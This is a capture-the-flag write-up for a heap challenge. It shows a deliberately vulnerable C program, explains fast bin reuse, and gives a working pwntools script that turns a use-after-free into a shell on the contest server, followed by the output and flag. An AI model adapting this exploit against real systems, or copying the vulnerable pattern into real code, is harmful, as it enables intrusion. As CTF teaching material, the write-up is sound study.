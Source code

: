 # The First Fit

## Challenge Description
`Let's get started with a simple heap exploit!`

## Challenge
> TLDR: Exploit Use-After-Free vulnerability. Call `malloc()` to allocate memory to variable b, call `free(a)`, call `free(b)` (although the memory is freed, variable b is still pointing to the address), call `malloc()` to allocate memory to variable a (variable a points to the same memory address as variable b). Write “/bin/sh” to the memory via option 3. Run system('/bin/sh') via option 4

### Given source code
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
  int choice, choice2;
  char *a = malloc(128);
  char *b;
  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);
  while (1) {
    printf("a is at %p\n", a);
    printf("b is at %p\n", b);
    printf("1: Malloc\n2: Free\n3: Fill a\n4: System b\n> ");
    scanf("%d", &choice);
    switch(choice) {
      case 1:
              printf("What do I malloc?\n(1) a\n(2) b\n>> ");
              scanf("%d", &choice2);
              if (choice2 == 1)
                a = malloc(128);
              else if (choice2 == 2)
                b = malloc(128);
              break;
      case 2:
              printf("What do I free?\n(1) a\n(2) b\n>> ");
              scanf("%d", &choice2);
              if (choice2 == 1)
                free(a);
              else if (choice2 == 2)
                free(b);
              break;
      case 3: printf(">> "); scanf("%8s", a); break;
      case 4: system((char*)b); break;
      default: return -1;
    }
  }
  return 0;
}
```

### Background knowledge about fast bin
The heap manager maintains 5 types of bins: small bin, large bin, unsorted bin, fast bin and tcache bins. These bins are used to improve performance of memory allocation and free.

Fast bin stores recently released memory and is reused when malloc() is called soon after the memory is freed. When memory is freed, it is inserted to the HEAD of the list. When memory is allocated, it is removed from the HEAD of the list. This is because fast bin is implemented using a single linked list.

Example: <br />
When free(a) is called: <br />
HEAD -> memory(a) -> TAIL <br />

When free(b) is called: <br />
Head -> memory(b) -> memory(a) -> Tail

When malloc() is called: <br />
Head -> memory(a) -> Tail [memory(b) is allocated first]

### Solution
Goal: Make variable b points to ‘/bin/sh’ string, then I can call system('/bin/sh') via option 4.

Solution: Call `malloc()` to allocate memory to variable b, call `free(a)`, call `free(b)` (although the memory is freed, variable b is still pointing to the address), call `malloc()` to allocate memory to variable a (variable a points to the same memory address as variable b). Write “/bin/sh” to the memory via option 3. Run system('/bin/sh') via option 4

Working POC:
``` python
from pwn import *

r = remote('chal.imaginaryctf.org', 42003)
print(r.recvuntil(b'>'))
r.sendline(b'1') # select 'malloc' option
print(r.recvuntil(b'>>'))
r.sendline(b'2') # b = malloc(128)
print(r.recvuntil(b'>'))
r.sendline(b'2') # select 'free' option
print(r.recvuntil(b'>>'))
r.sendline(b'1') # free(a)
print(r.recvuntil(b'>'))
r.sendline(b'2') # select 'free' option
print(r.recvuntil(b'>>'))
r.sendline(b'2') # free(b)
print(r.recvuntil(b'>'))
r.sendline(b'1') # select 'malloc' option
print(r.recvuntil(b'>>'))
r.sendline(b'1') # a = malloc(128) ('a' point to the same address as 'b')
print(r.recvuntil(b'>'))
r.sendline(b'3')
print(r.recvuntil(b'>>'))
r.sendline(b'/bin/sh') # store "/bin/sh" in 'a' (also in 'b')
print(r.recvuntil(b'>'))
r.sendline(b'4') # system((char*)b) -> system('/bin.sh')
r.interactive()
```

Output of the script:
```bash
$ python3 heap.py
[+] Opening connection to chal.imaginaryctf.org on port 42003: Done
b'a is at 0x5565706eb2a0\nb is at 0x7ffd58d43ad0\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
b' What do I malloc?\n(1) a\n(2) b\n>>'
b' a is at 0x5565706eb2a0\nb is at 0x5565706eb330\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
b' What do I free?\n(1) a\n(2) b\n>>'
b' a is at 0x5565706eb2a0\nb is at 0x5565706eb330\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
b' What do I free?\n(1) a\n(2) b\n>>'
b' a is at 0x5565706eb2a0\nb is at 0x5565706eb330\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
b' What do I malloc?\n(1) a\n(2) b\n>>'
b' a is at 0x5565706eb330\nb is at 0x5565706eb330\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
b' >>'
b' a is at 0x5565706eb330\nb is at 0x5565706eb330\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
ictf{w3lc0me_t0_h34p_24bd59b0}
```

Flag: `ictf{w3lc0me_t0_h34p_24bd59b0}`

## Resource:
- https://heap-exploitation.dhavalkapil.com/attacks/first_fit
- https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/